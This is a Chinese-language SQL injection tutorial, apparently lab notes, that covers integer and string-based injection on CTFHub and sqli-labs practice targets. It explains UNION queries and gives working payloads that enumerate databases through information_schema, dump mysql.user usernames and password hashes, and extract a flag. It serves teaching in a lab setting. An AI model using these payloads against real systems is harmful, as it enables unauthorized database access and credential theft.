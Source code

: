 # 1.5-sql-注入

- 学习这个之前需要有mysql基础+php基础，如果对于这两个不了解，请移至https://www.runoob.com
- 上面的链接是菜鸟教程，可以学习mysql+php



## 1.1-整型注入

- 这里我们拿ctfhub来做实验

- ![image-20220813142847412](assets/image-20220813142847412.png)

- 可以看到上图中有一个sql语句

- ```
  select * from news where id=1
  ```

- 这其中的变量1是我们可控的，sql注入的关键就在于这个可控的变量，在这之前，我们需要学习前置知识

- mysql中的union联合语句

  - union联合语句是什么？

    - MySQL UNION 操作符用于连接两个以上的 SELECT 语句的结果组合到一个结果集合中。多个 SELECT 语句会删除重复的数据。

  - union联合语句可以干啥？

    - 在日常操作中可以同时查询两个字段数量相同数据

  - union联合语句语法是什么？

    - ```
      SELECT expression1, expression2, ... expression_n
      FROM tables
      [WHERE conditions]
      UNION [ALL | DISTINCT]
      SELECT expression1, expression2, ... expression_n
      FROM tables
      [WHERE conditions];
      ```

    - 可以看出union只是负责将两个select语句连接起来，起到同时执行两个select语句，其中还有两个参数，一个ALL和一个DISTINCT

      - ALL: 可选，返回所有结果集，包含重复数据。
      - DISTINCT:可选，删除结果集中重复的数据。默认情况下 UNION 操作符已经删除了重复数据，所以 DISTINCT 修饰符对结果没啥影响。（默认）

  - 知道了以上前置知识之后咱就可以尝试sql注入了

  - ![image-20220813145457288](assets/image-20220813145457288.png)

  - 当我们输入id为2的时候会回显一个skill的数据，如果为1的时候会回显一个ctfhub的数据，由于变量可控，我们就可以尝试使用union联合查询，union联合查询有一个特点，当我们查询的第一个select语句无效，则会返回第二个select语句的数据，但是我们前面的字段和后面一个select的字段一定要一致，因此我们第一步是拆解字段数

  - 拆解字段数可以使用order by num 语句

  - ![image-20220813150013956](assets/image-20220813150013956.png)

  - 上图是order by 字段的作用，根据order by的特性，可以用下标作选择第几个字段，如果字段存在则返回数据，如果不存在则报错，那么我们可以根据order by 一个数字来判断字段数量

  - ![image-20220813150227590](assets/image-20220813150227590.png)

  - 上图中我的变量不仅仅写的是1而是 1 order by 1 #，这里面的井号表示的是mysql的注释，一般情况是为了闭合才写的，这里因为是数字型注入，所以不写也没关系

  - ![image-20220813150434670](assets/image-20220813150434670.png)

  - ![image-20220813150449381](assets/image-20220813150449381.png)

  - 根据上面两张图片可以发现字段为2的时候存在数据，为3的时候不返回数据，则表示该语句返回的字段数为2个

  - ![image-20220813151105707](assets/image-20220813151105707.png)

  - 根据上图可以发现执行成功，说明存在union联合注入

  - ![image-20220813151217815](assets/image-20220813151217815.png)

  - 这个时候我们尝试让第一个select语句报错，于是输入了一个11，因为数据库中不存在11所以就返回了第二个select字段，第二个select查询结果应该是 1,2 这里可以看到id回显为1，data回显为2

  - 我们先查询一下mysql的版本

  - ![image-20220813151435564](assets/image-20220813151435564.png)

  - 可以看到是mariadb 10.3.22这个和mysql8版本相似（因为mariadb和mysql是同一个人写的，所以差异并不大）

  - 于是我们可以查询所有的数据库名称，在这之前我们需要知道一个数据库（information_schema)

  - ![image-20220813151823088](assets/image-20220813151823088.png)

  - information_schema数据库是MySQL系统自带的数据库，它提供了数据库元数据的访问方式，包含了所有的数据库名和表名以及字段名

  - 构造以下语句查询数据库

  - ```
    11 union select 1,group_concat(schema_name) from information_schema.schemata
    ```

    - group_concat() --> 将group by产生的同一个分组中的值连接起来，返回一个字符串结果。

  - ![image-20220813152130891](assets/image-20220813152130891.png)

  - 查询mysql数据表

  - ```
    11 union select 1,group_concat(table_name) from information_schema.tables where table_schema='mysql'
    ```

  - ![image-20220813152840728](assets/image-20220813152840728.png)

  - 查询user字段名

  - ```
    11 union select 1,group_concat(column_name) from information_schema.columns where table_schema='mysql'
    ```

    

  - ![image-20220813153401826](assets/image-20220813153401826.png)

  - 查询user,authentication_string数据

  - ```
    11 union select 1,group_concat(User,authentication_string) from mysql.user
    ```

    

  - ![image-20220813153556945](assets/image-20220813153556945.png)

  - 这里我在sqli数据库中找到了flag表

  - ![image-20220813153901329](assets/image-20220813153901329.png)

  - 查询flag表的所有字段

  - ```
    11 union select 1,group_concat(column_name) from information_schema.columns where table_schema='sqli'
    ```

    ![image-20220813154146058](assets/image-20220813154146058.png)

  - 查询flag

  - ```
    11 union select 1,group_concat(flag) from sqli.flag
    ```

    

  - ![image-20220813154431944](assets/image-20220813154431944.png)

  - 至此咱的数字型注入就结束了，如果换成其他类型的注入除了构造payload不同以外，其他的查询都是一样的，因此，之后的其他类型注入我们只找到注入点，详细的查询参考上面的数字型注入即可或者直接使用sqlmap也行


## 1.2-字符型注入

- 接下来为了方便查看源码我在本地搭建了一个sql注入的靶场，使用的是php7的sqli-labs
- 下载地址：https://github.com/skyblueee/sqli-labs-php7
- 或者直接使用buuctf中的sqli-labs靶场，可以自己复刻一份源码在本地上查看
- 打开sqli-labs的第三关我们直接查看是get请求，提示我们添加一个id参数
- ![image-20220814231859802](assets/image-20220814231859802.png)

- 这里我们先来查看一下源码

- ![image-20220814232127874](assets/image-20220814232127874.png)

- 可以看到我们的可控变量是$id也就是我们上面的id=2的位置，这个2是我们可控的变量，因为传参的时候没有经过任何过滤，因此我们呢可以构造一个payload

- ```
  1') order by 1 --+
  ```

- ![image-20220814233056388](assets/image-20220814233056388.png)

- 这里的注释使用--+代替，因为--+解码后是-- (注意有一个空格)，由于-- 在mysql中是注释的意思，因此之后的limit内容都注释掉了我们也就可以构造union联合语句了

- ![image-20220814233456272](assets/image-20220814233456272.png)

- 构造以下payload测试

- ```
  id=1') order by 3 --+
  ```

  

- ![image-20220814233538159](assets/image-20220814233538159.png)

- 发现有3个字段

- 构造union联合语句,需要注意将前一个select语句中的1修改为不存在的数值使其报错才能回显第二个select语句

- ```
  id=@') union select 1,2,3 --+
  ```

  

- ![image-20220814233643961](assets/image-20220814233643961.png)

- 可以看到回显的是2,3说明可以依靠2,3字段回显的结果来查看返回结果

- 可以看到当前数据库是security,用户是root@localhost

- ![image-20220814233914498](assets/image-20220814233914498.png)

- 至此，我们的单引号字符注入成功，接下来可以通过sqlmap工具取得你想要的内容
- 关于sqlmap使用方法参考中文手册即可
- slqmap中文手册：https://sqlmap.kvko.live
- ![image-20220814234357572](assets/image-20220814234357572.png)